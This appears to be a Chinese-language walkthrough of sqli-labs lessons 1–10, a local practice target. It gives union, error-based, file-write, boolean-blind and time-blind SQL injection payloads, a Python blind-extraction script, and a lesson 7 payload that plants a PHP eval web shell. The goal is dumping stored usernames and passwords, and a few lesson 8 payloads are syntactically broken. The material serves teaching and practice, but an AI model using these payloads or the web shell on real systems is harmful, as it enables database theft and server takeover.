

sqli-lab lesson 1~10
===

### 前言

sqli-labs 是为入门 sql 注入的靶场, 涵盖了 sql 注入所涉及的各种手段。不过在sqli-labs 中并没有刻意设置 flag 项, 这里将 user 表中的 `id` 和对应的 `password` 视为要提取的敏感数据, 提取到这些数据即可视为获取了 flag。

>   这里只记录了比较典型的几个 lesson;

### 搭建 sqli-labs 靶场

下载小皮, 宝塔或者其他面板工具, 在首页中打开 Apache 和 Mysql 服务, 然后[下载](https://github.com/Audi-1/sqli-labs)并解压sql-网站:


把解压后的文件夹重命名为 "sqli", 并把 php 版本改为 `5.3.x` 或 `5.4.x`:


配置数据库, 路径`phpstudy_pro\WWW\sqli\sqli-labs-master\sql-connections\db-creds.inc` 进行编辑。将账户密码改为小皮面板中数据库的配置项即可。


用 `ipconfig` 看一下当前设备的 ip 地址, 然后访问 `http://ip/sqli` 完成安装, 如果直接架在本地, 直接填 `127.0.0.1` 就行。


现在回到上一级点击 "Basic Challenges" 就可以进行第一页的挑战了:



>   sqli-labs 的参数是通过 GET 方式进行传递的。

### Less 1

#### 判断注入类型

```url
?id=1'
```

回显报错, 说明存在字符型注入:


#### 获取回显信息

用 `ORDER BY` 逐步增加排序, 在增加到 4 时报错, 说明字段数为 3 。

```url
?id=1' ORDER BY 4--+ 
```


联合查询来增加回显, 发现回显位为 2 和 3:

```url
?id=' UNION SELECT 1,2,3 --+
```


获取库名:

```url
?id=' UNION SELECT 1,database(),3 --+
```


用 `group_concat()` 函数把查询结果都打包到一个位置中来获取所有表名:

```url
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' --+
```


获取字段:

```url
?id=-1' UNION SELECT 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='security' AND table_name='users'),3 --+
```


#### 构造 payload

构造 payload, 拖出 `users` 表中所有数据:

```url
?id=-1' UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```


### lesson 2

和 `lesson 1` 基本一致, 区别是为**数字型注入**, 通过以下 payload 就可以发现:

```url
?id=1' and '1'='1
```


剩余流程一致:

```url
?id=-1 UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```


### lesson 3

这里使用前两节的 payload 均会报错, 直接打开源码参考一下:

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result = mysqli_query($conn, $sql);
```

可见在参数 `$id` 处使用括号包裹了起来, 用之前的 payload 验证一下, 确实存在这样的结构:

```url
?id=1'
```


更换一下 payload 即可:

```url
?id=1') --+
```


有正常的回显, 进一步验证了以上想法, 后续步骤与前面一致。

### lesson 4

同样输入 `id=1 and 1=1` 或 `id=1' and '1'='1'` 都能正常回显, 考虑到可能使用的是双引号: 输入 `id=1"` 产生报错:


说明同样需要 `)` 来闭合, 构造 payload:

```url
?id=1") --+
```

` 闭合, 接下来同样构造 payload 即可:

```url
?id=-1") UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```


### lesson 5

输入 `http://127.0.0.1/sqli/Less-5/?id=1` (正常查询)回显 `You are in...`, 而输入 `http://127.0.0.1/sqli/Less-5/?id=1'` (存在 SQL 语法错误的查询)报错, 尝试 `http://127.0.0.1/sqli/Less-5/?id=1' --+` (有查询结果的注入)回显正常, 说明注入为字符型, 尝试 `http://127.0.0.1/sqli/Less-5/?id=1' and 1=2--+` (查询结果为空的注入)无**任何回显**。

确认这一点后首先可以用 `order by` 语句发现列为 3。


>   这种没有正常输入常规回显的注入为盲注, 盲注由于没有直接文本回显, 需要借助其他方式来获取信息。这里用另一种做法。

经过前面的尝试发现, 网站有三种响应:

-   常规查询:   返回 `You are in ...`

-   结果为空的查询: 无任何回显。

-   存在 SQL 语法错误的查询: 原样返回报错信息。

因此想到此处可以用**报错注入**。

#### 报错注入

**报错注入(Error-Based SQL Injection)**,通过触发 SQL 错误，使数据库返回包含敏感信息的错误消息。利用 **报错函数**(如  `updatexml()`, `extractvalue()`)直接提取数据库名、表名、字段名及数据。

先利用 `updatexml()` 函数报错返回数据库名和表名:

>   语法: updatexml(目标 xml 内容, xml 路径, xml 更新内容), `0x7e` 为 `~` 符号, 显然是不符合函数规则的, 因此会报错, 而 xml 路径中的语句会被编译后执行。

---

获取库名:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT database()),0x7e),1) --+
```


---

获取表名:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='security'),0x7e),1) --+
```


>   注意:   报错注入的回显是**有长度限制**的, 如果结果被截断, 刻意用 `limit 0,1` → `limit 1,3` 等来慢慢调整长度。 

---

获取列名:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='security' and table_name='users'),0x7e),1) --+
```


---

接下来拖出 user 表中的数据即可:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(password) FROM users),0x7e),1) --+
```


```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(username) FROM users),0x7e),1) --+
```


当然也可以用 `limit` 来挨个输出。

### lesson 6

和 lesson 5 相似, 不过改用双引号 `"` 来闭合。遇到 `1'` 和 `1` 都不报错时, 可以尝试用双引号闭合, 后续步骤一致, 略过。

### lesson 7

首先还是输入判断类型, 可以发现是存在无回显的字符型注入, 不过这次不再返回具体的错误, 只返回错误提醒。


继续尝试发现闭合条件为: `?id=1')) --+` ;使用 `order by` 可以发现当前表的列数为 3 。

#### 读写文件注入

界面上有提示:"use outfile...", 尝试读写服务器文件:

>   常用的函数:
>   -   `into outfile()`    写入本地文件
>   -   `into dumpfile()`   写入本地文件并保留一定格式
>   -   `load_file()`       读取文件

写入木马:

```url
?id=-1')) UNION SELECT 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "D:\\phpstudy_pro\\WWW\\sqli\\Less-7\\shell.php"--+
```


写入成功。

用同样的方式尝试查询库名, 表名, 列名, 这里省略, 最后拖出 `users` 表:

```url
?id=1')) UNION SELECT 1,group_concat(username,':',password),3 FROM users INTO OUTFILE "D:\\phpstudy_pro\\WWW\\sqli\\Less-7\\data.txt"--+
```


### lesson 8

尝试 `1' and 1=1 --+`, 无任何返回。继续尝试, 发现网站有三种响应:
-   结果不为空的查询:   返回 `You are in ...`

-   结果为空的查询: 无任何回显。

-   存在 SQL 语法错误的查询: 无任何回显

说明此处存在字符型布尔盲注。

#### 布尔盲注:

首先仍然可以用 `order by` 判断出存在 3 个字段。

由于网页没有显错位, 这里需要使用盲注。

>   除了布尔盲注, 还有时间盲注: 通过 sleep() 来区别结果, 即使没有回显也可以判断返回结果。而布尔盲注原理是, 设想 `A and B` 中 A 的值为真, 则表达式的真假完全取决于 B , 以此来穷举猜测具体信息, 由于查询是否为假(空)时, 网站返回信息依然有区别, 因此可以判断出区别。

---

猜库名:

```url
?id=1' and (length(database())=8) --+
```

```url
?id=1' and ascii(substr(database()),1,1)=115 --+
```

>   改变 `substr` 中的参数往后遍历, 函数原型为 `substr(str, pos, len)`

---

穷举表长:

```url
?id=1' and (length(SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1)=8) --+
```

穷举表名:

```url
?id=1' and (ascii(SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1)=115) --+
```

---
同理可以得到列名, 最后用这种方式拖出数据(表名 `users`, 字段名 `password` 和 `username`)。

穷举数据长度:

```sql
id=1' AND 
(SELECT LENGTH(password) 
 FROM users 
 LIMIT 0,1
)=4 --+
```

猜测内容:

```sql
id=1' AND 
ASCII(SUBSTR(
  (SELECT password 
   FROM users 
   LIMIT 0,1), 1, 1)
)=68 --+
```

#### 算法优化

1. 二分查找

从上面能看出, 布尔盲注本质上是一种比较和穷举, 因此优化方面在**减少比较次数**, 比较容易想到的是**二分查找**。

例如, 第一次查找将比较值定为 64, 利用比较符号(`>`,`<`), 若结果为大于, 则将第二次查找的值定为 (64 + 128) / 2 = 96, 以此递推。

2. 自动化脚本

以python为示例:

```python
import requests

url = "http://localhost/sqli-labs/Less-8/?id=1' AND {} --+"
table_name = ""

for pos in range(1, 20):
    low, high = 0, 127
    while low <= high:
        mid = (low + high) // 2
        payload = f"ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1),{pos},1)) > {mid}"
        r = requests.get(url.format(payload))
        if "You are in" in r.text:
            low = mid + 1
        else:
            high = mid - 1
    if low == 0:
        break
    table_name += chr(low)
    print(f"Position {pos}: {chr(low)}")
```
此外, 如果要猜测的数据量非常庞大, 可以在 python 中开启**多线程**

3. 位运算猜解

由于ASCII码本质上是一个**8位的二进制数**, 通过位运算可以将比较次数降到 8 次, 例如:

```sql
-- 猜解字符的第 1 位（最高位）是否为 1
id=1' AND (ASCII(SUBSTR(table_name,1,1)) & 64 = 64 --+

-- 猜解第 2 位是否为 1
id=1' AND (ASCII(SUBSTR(table_name,1,1)) & 32 = 32 --+
```


### lesson 9

时间盲注, 和上节一致, 不过改用时间延迟的方式猜测数据:

库名长度:

```url
?id=1' AND IF(LENGTH(database())=8, SLEEP(5), 0) --+
```

库名:

```url
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(5), 0) --+
```

后续和之前一致, 略过。

### lesson 10

双引号时间盲注, 和 lesson 9 一致。